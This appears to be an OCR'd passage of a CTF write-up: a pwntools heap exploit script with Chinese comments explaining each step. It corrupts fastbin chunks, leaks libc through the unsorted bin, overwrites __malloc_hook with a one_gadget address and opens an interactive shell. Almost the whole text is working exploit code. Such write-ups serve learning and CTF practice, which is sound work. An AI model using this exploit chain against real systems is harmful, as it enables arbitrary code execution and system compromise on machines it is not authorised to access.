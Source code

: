```c
payload = p64(0)*3
payload += p64(0x21)
payload += p64(0)*3
payload += p64(0x21)
payload += p8(0x80)
fill(0, payload)

#然后再通过index3去进行写入,把index4的大小改成0x21
#这么做是因为当申请index4这块内存的时候,他会检查大小是不是fast chunk的范围内
payload = p64(0)*3
payload += p64(0x21)
fill(3, payload)

#改好index4的大小之后去申请两次，这样就把原来的fastbins中的给申请出来了
alloc(0x10)
alloc(0x10)

#申请成功之后index2就指向index4
#为了让index4能够被放到unsortedbins中,要把它的大小改回来
payload = p64(0)*3
payload += p64(0x91)
fill(3, payload)

#再申请一个防止index4与top chunk合并了
alloc(0x80)

#这时候free就会把index4放到unsorted中了
free(4)

#因为index2是指向index4的，所以直接把index2给dump一下就能拿到index4中前一部分的内容了
#main_arena与libc偏移为0x3c4b20(文末有工具算)
#再加上main_arena与unsortedbin的偏移,得到unsortedbins与libc的偏移
unsorted_offset_mainarena=unsorted_offset_arena(5)#这函数还不太明白
unsorted_addr=u64(dump(2)[:8].strip().ljust(8, "\x00"))
libc_base=unsorted_addr-0x3c4b20-unsorted_offset_mainarena
log.info("libc_base: "+hex(libc_base))
#此时因为fastbins中没有了,所以从unsortedbins中找
alloc(0x60)

#index2还是指向index4那个地方我们可以先释放index4
free(4)

#然后修改fd指针,通过index2往index4上写为malloc_hook,这样再次申请的时候会分配到这个地址
#但问题是我们去申请的时候会检查size是不是 fakefd + 8 == 当前fastbin的大小
#这个地址是main_arena-0x40+0xd,具体看后面图片解释
payload = p64(libc_base+0x3c4aed)
fill(2, payload)

#这时候再去申请两个,第一个是给前面free的index4,第二个就会分配到malloc_hook处
alloc(0x60)#index4
alloc(0x60)#index6

#然后往malloc_hook上写one_gadget的地址
payload = p8(0)*3
payload += p64(0)*2
payload += p64(libc_base+0x4527a)
fill(6, payload)

#再申请一下触发one_gadget
alloc(255)

p.interactive()
```